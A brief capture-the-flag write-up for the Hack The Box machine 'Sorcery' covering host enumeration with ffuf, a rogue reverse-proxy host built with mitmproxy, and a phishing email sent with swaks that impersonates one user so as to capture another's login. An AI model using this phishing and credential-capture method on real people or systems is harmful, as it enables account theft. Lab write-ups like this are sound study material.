 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

```
10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb
```

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

```
git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git
```

Enumerate virtual hosts with `ffuf`:

```
ffuf -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H "Host: FUZZ.sorcery.htb" -mc 200
```

This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

```
sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443
```

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ffff">└──╼[👾]~/machine/guardian $</span> <span style="color:#ffff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

```
magick xwd:Xvfb_screen0 credentials.png
open credentials.png
```

*Screenshots omitted.*
